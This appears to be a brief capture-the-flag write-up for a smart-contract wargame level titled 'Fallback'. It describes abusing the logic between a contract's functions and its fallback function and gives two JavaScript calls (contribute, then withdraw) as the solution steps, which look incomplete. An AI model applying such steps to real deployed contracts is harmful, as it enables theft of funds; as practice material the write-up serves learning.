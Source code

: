 # Day 1 - Fallback

Abusing erroneous logic between contract functions and fallback function.

```js
await contract.contribute().sendTransaction({ value: 0.005 });
await contract.withdraw();
```
